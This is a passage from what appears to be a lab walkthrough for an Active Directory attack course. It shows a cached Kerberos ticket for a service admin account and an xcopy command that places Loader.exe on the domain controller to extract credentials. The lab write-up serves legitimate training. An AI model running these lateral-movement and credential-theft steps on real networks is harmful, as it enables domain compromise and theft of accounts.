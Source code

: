 ![New spawned terminal process](./assets/screenshots/learning_objective_18_new_spawned_terminal_process.png)

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`klist`:
```
Current LogonId is 0:0x31e0d34

Cached Tickets: (1)

#0>     Client: svcadmin🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/17/2025 5:25:33 (local)
        End Time:   2/17/2025 15:25:33 (local)
        Renew Time: 2/24/2025 5:25:33 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Run the below commands from the process running as DA to copy `Loader.exe` on `dcorp-dc` and use it to extract credentials.

`echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y`:
```
Does \\dcorp-dc\C$\Users\Public\Loader.exe specify a file name
or directory name on the target
(F = file, D = directory)? F
C:\AD\Tools\Loader.exe
1 File(s) copied
```
